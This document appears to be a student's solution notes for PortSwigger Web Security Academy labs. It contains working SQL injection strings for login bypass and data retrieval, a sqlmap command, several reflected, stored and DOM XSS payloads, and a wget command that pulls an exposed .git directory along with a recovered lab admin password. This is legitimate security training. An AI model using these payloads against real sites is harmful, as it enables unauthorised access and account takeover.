 # Mystery lab challenge

[https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)

# Table of Contents

- [Mystery lab challenge](#mystery-lab-challenge)
- [Table of Contents](#table-of-contents)
- [SQL injection](#sql-injection)
  - [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#lab-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
    - [Check with sqlmap](#check-with-sqlmap)
    - [Solution:](#solution)
  - [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)
    - [Solution](#solution)
- [Cross-site scripting](#cross-site-scripting)
  - [Lab: Reflected XSS into HTML context with nothing encoded](#lab-reflected-xss-into-html-context-with-nothing-encoded)
    - [Solution](#solution)
  - [Lab: Stored XSS into HTML context with nothing encoded](#lab-stored-xss-into-html-context-with-nothing-encoded)
    - [Solution](#solution)
  - [Lab: DOM XSS in document.write sink using source location.search](#lab-dom-xss-in-document-write-sink-using-source-location-search)
    - [Solution](#solution)
  - [Lab: DOM XSS in innerHTML sink using source location.search](#lab-dom-xss-in-innerhtml-sink-using-source-location-search)
    - [Solution](#solution)
  - [DOM XSS in jQuery anchor href attribute sink using location.search source](#dom-xss-in-jquery-anchor-href-attribute-sink-using-location-search-source)
    - [Solution](#solution)
- [Information disclosure](#information-disclosure)
  - [Lab: Information disclosure in version control history](#lab-information-disclosure-in-version-control-history)
      - [Download Git Repo](#download-git-repo)
      - [Browse .git repo with command line `git` client](#browse-git-repo-with-command-line-git-client)




# SQL injection

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
> 
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Check with sqlmap

`sqlmap -u https://ac2c1fc91f0b7373c08708640007008f.web-security-academy.net/filter\?category\=Gifts`

![](assets/16512131974263.png)
![](assets/16512132501893.png)

### Solution:
> https://ac3a1f901e2f8e40c0277bda00020033.web-security-academy.net/filter?category=Pets'+OR+1=1--




## SQL injection vulnerability allowing login bypass

> This lab contains an SQL injection vulnerability in the login function.
> 
> To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.


### Solution

%' OR '0'='0

![](assets/16512172833793.png)


# Cross-site scripting

## Lab: Reflected XSS into HTML context with nothing encoded

> This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.
> 
> To solve the lab, perform a cross-site scripting attack that calls the alert function.

### Solution
Put this into search field:
`<script>alert("hacked")</script>`

## Lab: Stored XSS into HTML context with nothing encoded

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the blog post is viewed.


### Solution

![](assets/16512197656509.png)

![](assets/16512197783830.png)

## Lab: DOM XSS in document.write sink using source location.search


> This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

### Solution

`"><script>alert("hacked")</script>`

![](assets/16512211489269.png)

## Lab: DOM XSS in innerHTML sink using source location.search

> This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

### Solution

`'<iframe src="javascript:alert('hacked')"></iframe>`


## DOM XSS in jQuery anchor href attribute sink using location.search source

> This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.
> 
> To solve this lab, make the "back" link alert document.cookie.

### Solution

`https://ac9e1f261f8059e7c0480f4600a40022.web-security-academy.net/feedback?returnPath=javascript:alert(%27hacked%27)`

### Lab: DOM XSS in jQuery selector sink using a hashchange event

> This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.
> 
> To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.

### Solution

![Screenshot 2022-04-29 at 17.08.53](assets/Screenshot%202022-04-29%20at%2017.08.53.png)


`<iframe width="100%" height="100%" src="https://ac5f1f911e4329f7c0382ff2007200c0.web-security-academy.net//#" onload="this.src+='<img src=/ onerror=print()>'"></iframe>`

![](assets/16512270029293.png)




# Information disclosure


## Lab: Information disclosure in version control history

> This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

#### Download Git Repo
wget -r https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/.git/

#### Browse .git repo with command line `git` client

![](assets/16512107837482.png)

https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/my-account
\
User: administrator
\
Password: eoj2zssgznqxoo2p3icm


